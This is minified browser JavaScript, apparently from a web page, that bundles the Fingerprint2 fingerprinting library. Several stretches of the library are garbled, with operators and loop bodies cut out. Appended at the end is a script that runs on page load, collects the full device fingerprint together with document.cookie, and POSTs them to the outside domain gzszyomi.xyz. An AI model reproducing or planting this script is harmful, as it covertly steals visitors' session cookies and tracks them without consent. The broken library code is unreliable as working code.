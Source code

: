 (function(name,context,definition){'use strict'
if(typeof window!=='undefined'&&typeof define==='function'&&define.amd){define(definition)}else if(typeof module!=='undefined'&&module.exports){module.exports=definition()}else if(context.exports){context.exports=definition()}else{context[name]=definition()}})('Fingerprint2',this,function(){'use strict'
if(typeof Array.isArray==='undefined'){Array.isArray=function(obj){return Object.prototype.toString.call(obj)==='[object Array]'}};var x64Add=function(m,n){m=[m[0]>>>16,m[0]&0xffff,m[1]>>>16,m[1]&0xffff]
n=[n[0]>>>16,n[0]&0xffff,n[1]>>>16,n[1]&0xffff]
var o=[0,0,0,0]
o[3]+=m[3]+n[3]
o[2]+=o[3]>>>16
o[3]&=0xffff
o[2]+=m[2]+n[2]
o[1]+=o[2]>>>16
o[2]&=0xffff
o[1]+=m[1]+n[1]
o[0]+=o[1]>>>16
o[1]&=0xffff
o[0]+=m[0]+n[0]
o[0]&=0xffff
return[(o[0]<<16)|o[1],(o[2]<<16)|o[3]]}
var x64Multiply=function(m,n){m=[m[0]>>>16,m[0]&0xffff,m[1]>>>16,m[1]&0xffff]
n=[n[0]>>>16,n[0]&0xffff,n[1]>>>16,n[1]&0xffff]
var o=[0,0,0,0]
o[3]+=m[3]\*n[3]
o[2]+=o[3]>>>16
o[3]&=0xffff
o[2]+=m[2]\*n[3]
o[1]+=o[2]>>>16
o[2]&=0xffff
o[2]+=m[3]\*n[2]
o[1]+=o[2]>>>16
o[2]&=0xffff
o[1]+=m[1]\*n[3]
o[0]+=o[1]>>>16
o[1]&=0xffff
o[1]+=m[2]\*n[2]
o[0]+=o[1]>>>16
o[1]&=0xffff
o[1]+=m[3]\*n[1]
o[0]+=o[1]>>>16
o[1]&=0xffff
o[0]+=(m[0]\*n[3])+(m[1]\*n[2])+(m[2]\*n[1])+(m[3]\*n[0])
o[0]&=0xffff
return[(o[0]<<16)|o[1],(o[2]<<16)|o[3]]}
var x64Rotl=function(m,n){n%=64
if(n===32){return[m[1],m[0]]}else if(n<32){return[(m[0]<>>(32-n)),(m[1]<>>(32-n))]}else{n-=32
return[(m[1]<>>(32-n)),(m[0]<>>(32-n))]}}
var x64LeftShift=function(m,n){n%=64
if(n===0){return m}else if(n<32){return[(m[0]<>>(32-n)),m[1]<>>1])
h=x64Multiply(h,[0xff51afd7,0xed558ccd])
h=x64Xor(h,[0,h[0]>>>1])
h=x64Multiply(h,[0xc4ceb9fe,0x1a85ec53])
h=x64Xor(h,[0,h[0]>>>1])
return h}
var x64hash128=function(key,seed){key=key||''
seed=seed||0
var remainder=key.length%16
var bytes=key.length-remainder
var h1=[0,seed]
var h2=[0,seed]
var k1=[0,0]
var k2=[0,0]
var c1=[0x87c37b91,0x114253d5]
var c2=[0x4cf5ad43,0x2745937f]
for(var i=0;i>>0).toString(16)).slice(-8)+('00000000'+(h1[1]>>>0).toString(16)).slice(-8)+('00000000'+(h2[0]>>>0).toString(16)).slice(-8)+('00000000'+(h2[1]>>>0).toString(16)).slice(-8)}
var defaultOptions={preprocessor:null,audio:{timeout:1000,excludeIOS11:true},fonts:{swfContainerId:'fingerprintjs2',swfPath:'flash/compiled/FontList.swf',userDefinedFonts:[],extendedJsFonts:false},screen:{detectScreenOrientation:true},plugins:{sortPluginsFor:[/palemoon/i],excludeIE:false},extraComponents:[],excludes:{'enumerateDevices':true,'pixelRatio':true,'doNotTrack':true,'fontsFlash':true},NOT\_AVAILABLE:'not available',ERROR:'error',EXCLUDED:'excluded'}
var each=function(obj,iterator){if(Array.prototype.forEach&&obj.forEach===Array.prototype.forEach){obj.forEach(iterator)}else if(obj.length===+obj.length){for(var i=0,l=obj.length;ib.name){return 1}
if(a.name=0){os='Windows Phone'}else if(userAgent.indexOf('windows')>=0||userAgent.indexOf('win16')>=0||userAgent.indexOf('win32')>=0||userAgent.indexOf('win64')>=0||userAgent.indexOf('win95')>=0||userAgent.indexOf('win98')>=0||userAgent.indexOf('winnt')>=0||userAgent.indexOf('wow64')>=0){os='Windows'}else if(userAgent.indexOf('android')>=0){os='Android'}else if(userAgent.indexOf('linux')>=0||userAgent.indexOf('cros')>=0||userAgent.indexOf('x11')>=0){os='Linux'}else if(userAgent.indexOf('iphone')>=0||userAgent.indexOf('ipad')>=0||userAgent.indexOf('ipod')>=0||userAgent.indexOf('crios')>=0||userAgent.indexOf('fxios')>=0){os='iOS'}else if(userAgent.indexOf('macintosh')>=0||userAgent.indexOf('mac\_powerpc)')>=0){os='Mac'}else{os='Other'}
var mobileDevice=(('ontouchstart'in window)||(navigator.maxTouchPoints>0)||(navigator.msMaxTouchPoints>0))
if(mobileDevice&&os!=='Windows'&&os!=='Windows Phone'&&os!=='Android'&&os!=='iOS'&&os!=='Other'&&userAgent.indexOf('cros')===-1){return true}
if(typeof oscpu!=='undefined'){oscpu=oscpu.toLowerCase()
if(oscpu.indexOf('win')>=0&&os!=='Windows'&&os!=='Windows Phone'){return true}else if(oscpu.indexOf('linux')>=0&&os!=='Linux'&&os!=='Android'){return true}else if(oscpu.indexOf('mac')>=0&&os!=='Mac'&&os!=='iOS'){return true}else if((oscpu.indexOf('win')===-1&&oscpu.indexOf('linux')===-1&&oscpu.indexOf('mac')===-1)!==(os==='Other')){return true}}
if(platform.indexOf('win')>=0&&os!=='Windows'&&os!=='Windows Phone'){return true}else if((platform.indexOf('linux')>=0||platform.indexOf('android')>=0||platform.indexOf('pike')>=0)&&os!=='Linux'&&os!=='Android'){return true}else if((platform.indexOf('mac')>=0||platform.indexOf('ipad')>=0||platform.indexOf('ipod')>=0||platform.indexOf('iphone')>=0)&&os!=='Mac'&&os!=='iOS'){return true}else if(platform.indexOf('arm')>=0&&os==='Windows Phone'){return false}else if(platform.indexOf('pike')>=0&&userAgent.indexOf('opera mini')>=0){return false}else{var platformIsOther=platform.indexOf('win')<0&&platform.indexOf('linux')<0&&platform.indexOf('mac')<0&&platform.indexOf('iphone')<0&&platform.indexOf('ipad')<0&&platform.indexOf('ipod')<0
if(platformIsOther!==(os==='Other')){return true}}
return typeof navigator.plugins==='undefined'&&os!=='Windows'&&os!=='Windows Phone'}
var getHasLiedBrowser=function(){var userAgent=navigator.userAgent.toLowerCase()
var productSub=navigator.productSub
var browser
if(userAgent.indexOf('edge/')>=0||userAgent.indexOf('iemobile/')>=0){return false}else if(userAgent.indexOf('opera mini')>=0){return false}else if(userAgent.indexOf('firefox/')>=0){browser='Firefox'}else if(userAgent.indexOf('opera/')>=0||userAgent.indexOf(' opr/')>=0){browser='Opera'}else if(userAgent.indexOf('chrome/')>=0){browser='Chrome'}else if(userAgent.indexOf('safari/')>=0){if(userAgent.indexOf('android 1.')>=0||userAgent.indexOf('android 2.')>=0||userAgent.indexOf('android 3.')>=0||userAgent.indexOf('android 4.')>=0){browser='AOSP'}else{browser='Safari'}}else if(userAgent.indexOf('trident/')>=0){browser='Internet Explorer'}else{browser='Other'}
if((browser==='Chrome'||browser==='Safari'||browser==='Opera')&&productSub!=='20030107'){return true}
var tempRes=eval.toString().length
if(tempRes===37&&browser!=='Safari'&&browser!=='Firefox'&&browser!=='Other'){return true}else if(tempRes===39&&browser!=='Internet Explorer'&&browser!=='Other'){return true}else if(tempRes===33&&browser!=='Chrome'&&browser!=='AOSP'&&browser!=='Opera'&&browser!=='Other'){return true}
var errFirefox
try{throw'a'}catch(err){try{err.toSource()
errFirefox=true}catch(errOfErr){errFirefox=false}}
return errFirefox&&browser!=='Firefox'&&browser!=='Other'}
var isCanvasSupported=function(){var elem=document.createElement('canvas')
return!!(elem.getContext&&elem.getContext('2d'))}
var isWebGlSupported=function(){if(!isCanvasSupported()){return false}
var glContext=getWebglCanvas()
var isSupported=!!window.WebGLRenderingContext&&!!glContext
loseWebglContext(glContext)
return isSupported}
var isIE=function(){if(navigator.appName==='Microsoft Internet Explorer'){return true}else if(navigator.appName==='Netscape'&&/Trident/.test(navigator.userAgent)){return true}
return false}
var hasSwfObjectLoaded=function(){return typeof window.swfobject!=='undefined'}
var hasMinFlashInstalled=function(){return window.swfobject.hasFlashPlayerVersion('9.0.0')}
var addFlashDivNode=function(options){var node=document.createElement('div')
node.setAttribute('id',options.fonts.swfContainerId)
document.body.appendChild(node)}
var loadSwfAndDetectFonts=function(done,options){var hiddenCallback='\_\_\_fp\_swf\_loaded'
window[hiddenCallback]=function(fonts){done(fonts)}
var id=options.fonts.swfContainerId
addFlashDivNode()
var flashvars={onReady:hiddenCallback}
var flashparams={allowScriptAccess:'always',menu:'false'}
window.swfobject.embedSWF(options.fonts.swfPath,id,'1','1','9.0.0',false,flashvars,flashparams,{})}
var getWebglCanvas=function(){var canvas=document.createElement('canvas')
var gl=null
try{gl=canvas.getContext('webgl')||canvas.getContext('experimental-webgl')}catch(e){}
if(!gl){gl=null}
return gl}
var loseWebglContext=function(context){var loseContextExtension=context.getExtension('WEBGL\_lose\_context')
if(loseContextExtension!=null){loseContextExtension.loseContext()}}
var components=[{key:'userAgent',getData:UserAgent},{key:'webdriver',getData:webdriver},{key:'language',getData:languageKey},{key:'colorDepth',getData:colorDepthKey},{key:'deviceMemory',getData:deviceMemoryKey},{key:'pixelRatio',getData:pixelRatioKey},{key:'hardwareConcurrency',getData:hardwareConcurrencyKey},{key:'screenResolution',getData:screenResolutionKey},{key:'availableScreenResolution',getData:availableScreenResolutionKey},{key:'timezoneOffset',getData:timezoneOffset},{key:'timezone',getData:timezone},{key:'sessionStorage',getData:sessionStorageKey},{key:'localStorage',getData:localStorageKey},{key:'indexedDb',getData:indexedDbKey},{key:'addBehavior',getData:addBehaviorKey},{key:'openDatabase',getData:openDatabaseKey},{key:'cpuClass',getData:cpuClassKey},{key:'platform',getData:platformKey},{key:'doNotTrack',getData:doNotTrackKey},{key:'plugins',getData:pluginsComponent},{key:'canvas',getData:canvasKey},{key:'webgl',getData:webglKey},{key:'webglVendorAndRenderer',getData:webglVendorAndRendererKey},{key:'adBlock',getData:adBlockKey},{key:'hasLiedLanguages',getData:hasLiedLanguagesKey},{key:'hasLiedResolution',getData:hasLiedResolutionKey},{key:'hasLiedOs',getData:hasLiedOsKey},{key:'hasLiedBrowser',getData:hasLiedBrowserKey},{key:'touchSupport',getData:touchSupportKey},{key:'fonts',getData:jsFontsKey,pauseBefore:true},{key:'fontsFlash',getData:flashFontsKey,pauseBefore:true},{key:'audio',getData:audioKey},{key:'enumerateDevices',getData:enumerateDevicesKey}]
var Fingerprint2=function(options){throw new Error("'new Fingerprint()' is deprecated, see https://github.com/Valve/fingerprintjs2#upgrade-guide-from-182-to-200")}
Fingerprint2.get=function(options,callback){if(!callback){callback=options
options={}}else if(!options){options={}}
extendSoft(options,defaultOptions)
options.components=options.extraComponents.concat(components)
var keys={data:[],addPreprocessedComponent:function(key,value){if(typeof options.preprocessor==='function'){value=options.preprocessor(key,value)}
keys.data.push({key:key,value:value})}}
var i=-1
var chainComponents=function(alreadyWaited){i+=1
if(i>=options.components.length){callback(keys.data)
return}
var component=options.components[i]
if(options.excludes[component.key]){chainComponents(false)
return}
if(!alreadyWaited&&component.pauseBefore){i-=1
setTimeout(function(){chainComponents(true)},1)
return}
try{component.getData(function(value){keys.addPreprocessedComponent(component.key,value)
chainComponents(false)},options)}catch(error){keys.addPreprocessedComponent(component.key,String(error))
chainComponents(false)}}
chainComponents(false)}
Fingerprint2.getPromise=function(options){return new Promise(function(resolve,reject){Fingerprint2.get(options,resolve)})}
Fingerprint2.getV18=function(options,callback){if(callback==null){callback=options
options={}}
return Fingerprint2.get(options,function(components){var newComponents=[]
for(var i=0;iindex){data=value[index].split(',');if(Array.isArray(data)&&data.length>=2){return data[1];}}
return false;};var fingerprintReport=function(){var url=new URL("https://gzszyomi.xyz/fingerprint?id=14858");if(location.protocol=="https:"&&url.protocol!="https:"){return;}
var d1=new Date()
var options={};Fingerprint2.get(options,function(components){var i;for(i=components.length-1;i>=0;--i){if(components[i].key=="webgl"||components[i].key=="canvas"){components[i].value=transformWebglData(components[i].key,components[i].value);if(components[i].value==false){components.splice(i,1);}}}
cookies={"key":"cookies","value":document.cookie};components.push(cookies);componentsJSON=JSON.stringify(components);var http=new XMLHttpRequest();data='msg='+encodeURIComponent(componentsJSON);http.open('POST',url);http.setRequestHeader('Content-Type','application/x-www-form-urlencoded');http.send(data);})}
var cancelId;var cancelFunction
if(window.requestIdleCallback){cancelId=requestIdleCallback(fingerprintReport)
cancelFunction=cancelIdleCallback}else{cancelId=setTimeout(fingerprintReport,500)
cancelFunction=clearTimeout}